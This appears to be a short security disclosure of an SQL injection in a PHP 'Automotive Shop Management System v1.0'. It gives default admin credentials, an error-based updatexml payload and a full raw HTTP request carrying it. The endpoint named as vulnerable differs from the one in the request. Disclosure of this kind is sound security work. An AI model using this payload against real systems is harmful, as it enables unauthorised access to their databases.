 # Automotive Shop Management System v1.0 by oretnom23 has SQL injection

BUG_Author: suikirakira

Login account: admin/admin123 (Super Admin account)

vendors: https://www.sourcecodester.com/php/15312/automotive-shop-management-system-phpoop-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File:  /asms/classes/Master.php?f=delete_mechanic

Vulnerability location: /asms/classes/Master.php?f=delete_mechanic, id

dbname =asms_db,length=7

[+] Payload:  id=3 and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id

```sql
POST /asms/classes/Users.php?f=delete HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=0bfse7548hblm5lblclp48r057; dou_member_id=1; dou_member_code=3a2d7d2301afce4cf127
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 64

id=3 and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/198048225-e5de0a02-3616-4e7c-a115-9f30735ff325.png)

